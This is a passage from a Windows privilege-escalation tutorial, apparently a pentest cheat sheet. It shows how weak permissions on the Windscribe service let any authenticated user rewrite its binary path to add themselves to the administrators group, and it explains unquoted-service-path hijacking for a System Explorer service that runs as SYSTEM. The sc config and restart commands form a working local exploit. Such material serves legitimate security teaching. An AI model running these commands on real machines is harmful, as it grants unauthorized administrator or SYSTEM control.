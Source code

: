 ````
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
````
The flags we use, in order, are -q (omit banner), -u (suppress errors), -v (verbose), -c (specify name of a Windows service), and -w (show only objects that have write access). Here we can see that all Authenticated Users have SERVICE_ALL_ACCESS rights over the service, which means full read/write control over it.

**Exploitation**
````
# Changing the Service Binary Path
> sc config WindscribeService binpath="cmd /c net localgroup administrators <user> /add"

# Stopping Service
> sc stop WindscribeService

# Starting the Service
> sc start WindscribeService
-----------------------------------------------------------------------------------------------
# Weak Service Permissions - Cleanup
> sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"

# Starting the Service Again
> sc start WindScribeService
````

**Unquoted Service Path**

When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders. Take the example binary path below.
````
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
````
Windows will decide the execution method of a program based on its file extension, so it's not necessary to specify it. Windows will attempt to load the following potential executables in order on service start, with a .exe being implied:
- C:\Program
- C:\Program Files
- C:\Program Files (x86)\System
- C:\Program Files (x86)\System Explorer\service\SystemExplorerService64

Querying Service
````
> sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
````
If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service, in this case, NT AUTHORITY\SYSTEM.
- C:\Program.exe\
- C:\Program Files (x86)\System.exe